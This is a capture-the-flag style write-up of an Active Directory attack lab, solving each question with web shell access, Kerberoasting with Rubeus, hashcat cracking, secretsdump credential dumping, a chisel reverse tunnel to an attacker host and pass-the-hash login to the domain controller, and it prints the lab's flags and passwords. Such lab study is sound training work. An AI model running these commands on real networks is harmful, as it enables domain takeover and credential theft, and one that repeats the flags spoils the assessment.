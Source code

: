 <div align='center'>

# **Lab 27: AD Enumeration & Attacks - Skills Assessment Part I** 

</div>

Known Information:
- Credential: admin:My_W3bsH3ll_P@ssw0rd!
- My IP: 10.129.195.58

## **Submit the contents of the flag.txt file on the administrator Desktop of the web server**

Navigate to http://10.129.195.58/uploads/antak.aspx and login with the credential 
`admin:My_W3bsH3ll_P@ssw0rd!`

![](../imgs/Lab/Lab27/1.png)

We get a web shell

![](../imgs/Lab/Lab27/2.png)

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

![](../imgs/Lab/Lab27/3.png)

**Answer:** JusT_g3tt1ng_st@rt3d!

![](../imgs/Lab/Lab27/4.png)

## **Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

Upload `Rubeus.exe` to the web server (upload to `C:\Windows\Temp`) and run the command

```powershell
cd C:\Windows\Temp; .\Rubeus.exe kerberoast /nowrap
```

Look for SPN `MSSQLSvc/SQL01.inlanefreight.local:1433`

![](../imgs/Lab/Lab27/5.png)

We get the [hash](../docs/Assess_svc_sql_TGSTicket.txt) of the account `svc_sql`

- **Answer:** svc_sql

![](../imgs/Lab/Lab27/6.png)

Reference: [Lab 14](Lab14_Kerberoasting-from_Windows.md)

## **Crack the account's password. Submit the cleartext value.**

Use `hashcat` to crack the hash

```zsh
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

![](../imgs/Lab/Lab27/7.png)

We get the password `lucky7`

- **Answer:** lucky7

![](../imgs/Lab/Lab27/8.png)

## **Submit the contents of the flag.txt file on the Administrator desktop on MS01**

```powershell
$password = ConvertTo-SecureString "lucky7" -AsPlainText -Force; $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\svc_sql", $password); $s= New-PSSession -ComputerName MS01 -Credential $cred; Invoke-Command -Session $s -ScriptBlock { type C:\Users\Administrator\Desktop\flag.txt }
```

![](../imgs/Lab/Lab27/9.png)

- **Answer:** spn$_r0ast1ng_on_@n_0p3n_f1re

![](../imgs/Lab/Lab27/10.png)

Reference: [Lab 18](Lab18_Privileged_Access.md)

## **Find cleartext credentials for another domain user. Submit the username as your answer.**

**Find the IP address of the Domain Controller**

```powershell
1..254 | % {echo "172.16.6.$_"; ping -n 1 -w 100 172.16.6.$_} | Select-String ttl
```

![](../imgs/Lab/Lab27/11.png)

We get 3 IP addresses: `172.16.6.3`, `172.16.6.50`, `172.16.6.100`

After some trial and error, we find the IP `172.16.6.50`

Upload `secretsdump.exe` to the web server (upload to `C:\Windows\Temp`)

Use `secretsdump.exe` to dump the credentials

```powershell
cd C:\Windows\Temp; .\secretsdump.exe INLANEFREIGHT/svc_sql:"lucky7"@172.16.6.50
```

![](../imgs/Lab/Lab27/12.png)

We get a cleartext credential `tpetty:Sup3rS3cur3D0m@inU2eR`

- **Answer:** tpetty

![](../imgs/Lab/Lab27/13.png)

Reference: [Lab 17](Lab17_DCSync.md)

## **Submit this user's cleartext password**

- **Answer:** Sup3rS3cur3D0m@inU2eR

![](../imgs/Lab/Lab27/14.png)

## **What attack can this user perform?**

Upload `Powerview.ps1` to the web server (upload to `C:\Windows\Temp`)

Get the user's objectsid: `S-1-5-21-2270287766-1317258649-2146029398-4607`

```powershell
cd C:\Windows\Temp; Import-Module .\powerview.ps1 ; Get-DomainUser -Identity tpetty | select objectsid | fl
```

![](../imgs/Lab/Lab27/15.png)

Use `Get-ObjectAcl` to enumerate the permissions of the user

```powershell
cd C:\Windows\Temp; Import-Module .\powerview.ps1; $sid="S-1-5-21-2270287766-1317258649-2146029398-4607"; Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ?{$_.SecurityIdentifier -match $sid}
```

![](../imgs/Lab/Lab27/16.png)

This user has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Therefore, this user can perform DCSync attack.

- **Answer:** DCSync

![](../imgs/Lab/Lab27/17.png)

Reference: [Lab 17](Lab17_DCSync.md)

## **Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

**Set up chisel**

Linux attack host: 

Edit `/etc/proxychains4.conf`

![](../imgs/Lab/Lab27/18.png)

```zsh
sudo chisel server --reverse -v -p 1234 --socks5 
```

Upload `chisel.exe` to the web server (upload to `C:\Windows\Temp`)

```powershell
cd C:\Windows\Temp; .\chisel.exe client -v <attacker's IP address:1234> R:socks 
```

Then, use `secretsdump.py` to obtain the administrator's hash: `27dedb1dab4d8545c6e1c66fba077da0`

```zsh
proxychains secretsdump.py INLANEFREIGHT/tpetty:"Sup3rS3cur3D0m@inU2eR"@172.16.6.3
```

![](../imgs/Lab/Lab27/19.png)

Use `evil-winrm` to login to the domain controller

```zsh
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

![](../imgs/Lab/Lab27/20.png)

```powershell
type C:\Users\Administrator\Desktop\flag.txt
```

![](../imgs/Lab/Lab27/21.png)

- **Answer:** r3plicat1on_m@st3r!

![](../imgs/Lab/Lab27/22.png)